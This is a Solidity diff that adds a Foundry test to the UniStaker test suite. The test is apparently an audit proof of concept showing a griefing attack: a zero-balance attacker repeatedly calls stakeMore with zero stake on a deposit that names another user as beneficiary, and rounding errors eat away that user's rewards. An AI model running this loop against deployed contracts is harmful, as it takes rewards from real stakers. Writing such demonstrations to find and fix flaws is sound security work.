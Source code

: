 ```diff
diff --git a/test/UniStaker.t.sol b/test/UniStaker.t.sol
index 89124f8..9a01043 100644
--- a/test/UniStaker.t.sol
+++ b/test/UniStaker.t.sol
@@ -2708,2 +2708,50 @@ contract UniStakerRewardsTest is UniStakerTest {
 contract NotifyRewardAmount is UniStakerRewardsTest {
+  function test_SmallStakesRewardGriefing() public {
+    address _user1 = address(1);
+    address _user2 = address(2);
+    address _user3 = address(3);
+    address _delegatee = address(4);
+    address _attacker = address(5);
+
+    // Mint necessary amounts
+    uint256 _smallDepositAmount = 0.1e18; // from _boundToRealisticStake
+    uint256 _largeDepositAmount = 25_000_000e18; // from _boundToRealisticStake
+    _mintGovToken(_user1, _smallDepositAmount);
+    _mintGovToken(_user2, _smallDepositAmount);
+    _mintGovToken(_user3, _largeDepositAmount);
+
+    // Notify of the rewards
+    uint256 _rewardAmount = 1e14; // from _boundToRealisticReward
+    rewardToken.mint(rewardNotifier, _rewardAmount);
+    vm.startPrank(rewardNotifier);
+    rewardToken.transfer(address(uniStaker), _rewardAmount);
+    uniStaker.notifyRewardAmount(_rewardAmount);
+    vm.stopPrank();
+
+    // Users stake for themselves
+    _stake(_user1, _smallDepositAmount, _delegatee);
+    _stake(_user2, _smallDepositAmount, _delegatee);
+    _stake(_user3, _largeDepositAmount, _delegatee);
+
+    // _attacker has zero funds
+    assertEq(govToken.balanceOf(_attacker), 0);
+
+    // The attack: every block _attacker deposits 0 stake
+    // and assigns _user1 as beneficiary,
+    // thus leading to frequent updates of the reward checkpoint for _user1
+    // with the rounding errors accumulating
+    UniStaker.DepositIdentifier _depositId = _stake(_attacker, 0, _delegatee, _user1);
+    for(uint i = 0; i < 1000; ++i) {
+      _jumpAhead(10); // a conservative 10 seconds between blocks
+      vm.startPrank(_attacker);
+      uniStaker.stakeMore(_depositId, 0);
+      vm.stopPrank();
+    }
+
+    console2.log("Unclaimed reward for _user1: ", uniStaker.unclaimedReward(_user1));
+    console2.log("Unclaimed reward for _user2: ", uniStaker.unclaimedReward(_user2));
+    // This assertion fails: _user1 can now claim substantially less rewards than _user2
+    assertLteWithinOnePercent(uniStaker.unclaimedReward(_user1), uniStaker.unclaimedReward(_user2));
+  }
+
   function testFuzz_UpdatesTheRewardRate(uint256 _amount) public {
```
